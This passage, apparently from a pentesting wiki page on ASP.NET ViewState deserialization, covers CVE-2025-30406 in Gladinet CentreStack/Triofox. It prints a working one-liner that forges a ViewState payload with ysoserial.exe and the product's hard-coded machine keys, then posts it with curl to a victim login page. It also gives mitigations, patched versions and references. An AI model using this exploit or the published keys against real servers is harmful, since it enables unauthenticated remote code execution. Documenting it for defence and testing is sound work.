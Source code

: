 Rotating static keys or switching to *AutoGenerate* keys in Web .config (`<machineKey ... validationKey="AutoGenerate" decryptionKey="AutoGenerate" />`) mitigates this class of attacks.

### CVE-2025-30406 – Gladinet CentreStack / Triofox hard-coded keys
Kudelski Security uncovered that multiple CentreStack / Triofox releases shipped with identical `machineKey` values, enabling unauthenticated remote code execution through ViewState forgery (CVE-2025-30406).

One-liner exploit:

```bash
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" \
  --validationkey=ACC97055B2A494507D7D7C92DC1C854E8EA7BF4C \
  --validationalg=SHA1 \
  --decryptionkey=1FB1DEBB8B3B492390B2ABC63E6D1B53DC9CA2D7 \
  --decryptionalg=AES --generator=24D41AAB --minify \
  | curl -d "__VIEWSTATE=$(cat -)" http://victim/portal/loginpage.aspx
```

Fixed in CentreStack 16.4.10315.56368 / Triofox 16.4.10317.56372 – upgrade or replace the keys immediately. {{#ref}}


{{#endref}}

## References

- [Exploiting ViewState deserialization using Blacklist3r and YSoSerial.NET](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)
- [Deep dive into .NET ViewState deserialization and its exploitation](https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
- [Exploiting deserialisation in ASP.NET via ViewState (Soroush Dalili, 2019)](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
- [Introducing badsecrets – fast machineKey discovery](https://blog.blacklanternsecurity.com/p/introducing-badsecrets)
- [SharePoint “ToolShell” exploitation chain (Eye Security, 2025)](https://research.eye.security/sharepoint-under-siege/)
- [Microsoft Security – Code injection attacks abusing publicly disclosed ASP.NET machine keys (Feb 6 2025)](https://www.microsoft.com/en-us/security/blog/2025/02/06/code-injection-attacks-using-publicly-disclosed-asp-net-machine-keys/)
- [Kudelski Security advisory – Gladinet CentreStack / Triofox RCE CVE-2025-30406 (Apr 16 2025)](https://research.kudelskisecurity.com/2025/04/16/gladinet-centrestack-and-gladinet-triofox-critical-rce-cve-2025-30406/)
- [**https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/**](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)
- [**https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817**](https://medium.com/@swapneildash/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817)
- [**https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/**](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
- [**https://blog.blacklanternsecurity.com/p/introducing-badsecrets**](https://blog.blacklanternsecurity.com/p/introducing-badsecrets)
- [SharePoint “ToolShell” exploitation chain (Eye Security, 2025)](https://research.eye.security/sharepoint-under-siege/)



{{#include ../../banners/hacktricks-training.md}}


